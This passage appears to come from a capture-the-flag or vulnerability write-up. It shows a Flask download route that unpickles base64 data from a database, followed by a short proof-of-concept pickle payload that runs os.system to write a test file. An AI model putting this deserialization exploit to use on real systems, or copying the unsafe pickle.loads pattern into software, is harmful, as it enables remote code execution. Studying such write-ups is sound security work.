 ![func_def](./images/function_definition.png)


### Finding the last bug in the chain

```python
@app.route('/download/<filename>/<sessionid>', methods=['GET'])
def download_file(filename, sessionid):
    conn = get_db()
    c = conn.cursor()
    c.execute(f"SELECT * FROM activesessions WHERE sessionid=?", (sessionid,))
    
    active_session = c.fetchone()
    if active_session is None:
        flash('No active session found')
        return redirect(url_for('home'))
    c.execute(f"SELECT data FROM files WHERE filename=?",(filename,))
    
    file_data = c.fetchone()
    if file_data is None:
        flash('File not found')
        return redirect(url_for('files'))

    file_blob = pickle.loads(base64.b64decode(file_data[0]))
    return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)
```

looking at the code above it is apperant that the file data stored in the database is unprotected from deserialization attack, so I immediately tried to get an RCE on my own machine to verify:

```python
import base64
import cPickle

command = "echo 'get pwned' > pwned.txt"
class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))
    
payload = base64.b64encode(cPickle.dumps(PickleRCE())).decode("utf-8")

print(payload)
```
